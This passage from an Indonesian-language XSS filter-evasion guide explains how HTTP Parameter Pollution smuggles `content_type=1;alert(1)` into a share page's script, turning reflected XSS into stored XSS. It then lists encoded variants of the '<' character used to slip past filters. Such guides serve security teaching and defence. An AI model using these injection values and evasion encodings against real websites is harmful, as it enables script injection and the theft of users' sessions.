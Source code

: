 #### Keluaran Halaman Konten

Jika penyerang menetapkan judul konten yang tidak tepercaya sebagai `Ini adalah judul biasa&content_type=1;alert(1)`, tautan di halaman `Konten` akan menjadi seperti ini:

```html
<a href="/share?content_type=1&title=This is a regular title&amp;content_type=1;alert(1)">Share</a>
```

#### Keluaran Halaman Share

Dan dalam keluaran halaman share bisa seperti ini:

```js
<script>
var contentType = 1; alert(1);
var title = "Ini adalah judul biasa";
…
//beberapa perjanjian pengguna dan logika pengiriman ke server mungkin ada di sini
…
</script>
```

Akibatnya, dalam contoh ini kelemahan utamanya adalah mempercayai content_type di halaman `Share` tanpa pengodean atau validasi yang tepat. Pencemaran Parameter HTTP dapat meningkatkan dampak kelemahan XSS dengan mempromosikannya dari XSS yang dipantulkan ke XSS yang tersimpan.

## Urutan Karakter Escape

Berikut ini semua kemungkinan kombinasi karakter `\<` dalam HTML dan JavaScript. Sebagian besar tidak akan ditampilkan begitu saja, tetapi banyak di antaranya dapat ditampilkan dalam keadaan tertentu seperti yang terlihat di atas.

- `<`
- `%3C`
- `&lt`
- `&lt;`
- `&LT`
- `&LT;`
- `&#60`
- `&#060`
- `&#0060`
- `&#00060`
- `&#000060`
- `&#0000060`
- `&#60;`
- `&#060;`
- `&#0060;`
- `&#00060;`
- `&#000060;`
- `&#0000060;`
- `&#x3c`
- `&#x03c`
- `&#x003c`
- `&#x0003c`
- `&#x00003c`
- `&#x000003c`
- `&#x3c;`
- `&#x03c;`
- `&#x003c;`
- `&#x0003c;`
- `&#x00003c;`
- `&#x000003c;`
- `&#X3c`
- `&#X03c`
- `&#X003c`